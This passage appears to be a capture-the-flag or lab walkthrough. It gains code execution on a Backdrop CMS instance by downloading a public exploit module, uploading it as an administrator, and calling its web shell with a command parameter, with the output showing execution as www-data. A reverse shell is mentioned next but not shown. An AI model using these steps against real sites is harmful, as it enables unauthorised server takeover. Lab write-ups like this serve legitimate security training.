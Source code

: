 <figure><img src="../../../.gitbook/assets/image (1208).png" alt=""><figcaption></figcaption></figure>

There is an RCE for this that involves CSRF, but since I'm the administrator, I don't need to do CSRF. I can directly do the RCE.

{% embed url="https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS" %}

```
wget https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS/releases/download/backdrop/reference.tar
```

Head to Functionality > Install New Modules > Manual Installation > Upload the .tar file. Then, install it and we can check the RCE:

```
$ proxychains curl -k https://172.17.0.2/modules/reference/shell.php?cmd=id
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.17.0.2:443  ...  OK
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then, we can get another reverse shell on this Docker container.

<figure><img src="../../../.gitbook/assets/image (3552).png" alt=""><figcaption></figcaption></figure>
